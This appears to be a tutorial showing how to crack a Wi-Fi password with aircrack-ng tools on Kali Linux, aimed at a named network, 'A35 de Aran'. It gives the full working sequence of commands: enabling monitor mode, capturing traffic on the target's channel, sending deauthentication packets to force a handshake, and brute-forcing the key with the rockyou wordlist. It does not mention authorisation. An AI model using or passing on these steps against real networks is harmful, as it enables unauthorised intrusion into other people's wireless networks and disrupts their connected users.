





Let's start by opening the Kali Linux Virtual Machine (VM recommended!).


After opening Kali, we'll need to make sure that our Wi-Fi adapter is connected. (You will need a TP-Link USB adapter.)

After making sure that the TP-Link USB adapter is connected to our Kali virtual machine, we'll proceed with our first two commands.
sudo airmon-ng check kill
sudo airmon-ng start wlan0

These two commands will enable monitor mode.
Now let's perform our first network scan:
sudo airodump-ng wlan0

Now we'll choose the Wi-Fi network we want. In our case, we'll choose:
We recommend writing down the information using Kali Linux Notes.

We're choosing "A35 de Aran".
Next, we'll focus on the selected Wi-Fi network using the following command:
The -c option specifies the channel. Look for the value under "CH" to find the correct channel. The -w option stands for "write", so the captured data will be saved to a file named capture_file. The BSSID parameter specifies the target network's BSSID.
sudo airodump-ng -c 6 --bssid PUTHEREYOURBSSID -w capture_file wlan0

Now we will open a new terminal tab and enter the following command:
sudo aireplay-ng --deauth 1 -a PUTHERETHEBSSID -c PUTHERESTATION wlan0

We're almost finished!
Now we'll go back to the previous terminal window. You may see something called a handshake. This won't appear every time you try, as this is only a basic method.

Below is the command used to find the password:
aircrack-ng -w /usr/share/wordlists/rockyou.txt -e "A35 de Aran" -b YOURBSSIDHERE capture_file-01.cap
After pressing Enter, Kali will begin trying passwords from the provided wordlist. Remember that you'll need to extract the rockyou wordlist before using it.

And that's it!